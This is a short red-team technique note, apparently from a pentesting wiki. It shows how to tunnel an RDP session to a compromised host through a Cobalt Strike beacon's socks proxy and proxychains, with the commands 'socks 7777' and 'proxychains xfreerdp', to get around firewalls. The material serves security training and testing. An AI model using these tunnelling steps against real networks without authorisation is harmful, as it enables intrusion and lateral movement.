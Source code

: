 ```yaml
---
description: Lateral Movement, Tunnelling, Firewall Evasion
---
```


# From Beacon to Interactive RDP Session

This is a quick note showing how to get an interactive Remote Desktop Session (RDP) session from a Cobalt Strike beacon by leveraging socks proxy and proxychains.

## Socks Proxy

Say we have compromised a box and we have a beacon running on it:

![](<../../.gitbook/assets/image (183).png>)

The same compromised machine is listening on 3389, meaning it accepts incoming RDP connections:

![](<../../.gitbook/assets/image (182).png>)

Most often you will not be able to reach the machine via RDP from the outside due to corporate and host firewalls, however not all is lost - the machine is still reachable over RDP via sock proxy capability that the beacon provides.

Using the beacon we control, let's create a socks proxy on port 7777. This will expose a TCP port 7777 on the teamserver:

```
socks 7777
```

![](<../../.gitbook/assets/image (180).png>)

## Proxychains

With the socks proxy create, we can now jump onto any linux box (Kali in my case) and configure proxychains to point it to the teamserver and the port we've just exposed:

![](<../../.gitbook/assets/image (181).png>)

We can now connect to the compromised box via RDP using xfreerdp:

{% code title="attacker@kali" %}
```
proxychains xfreerdp /v:127.0.0.1:3389 /u:spotless
```
{% endcode %}

Below illustrates a successful RDP connection was established although the user on the other end (me) killed the session:

![](<../../.gitbook/assets/image (179).png>)

{% hint style="warning" %}
**If you are getting...**\
`Error: CredSSP initialize failed, do you have correct kerberos ticket initialized?`\
`Failed to connect, CredSSP required by server`

Suggestion is to use `xfreerdp` instead of `rdesktop` and the issue will go away.
{% endhint %}

![CredSSP error using rdesktop](<../../.gitbook/assets/image (178).png>)
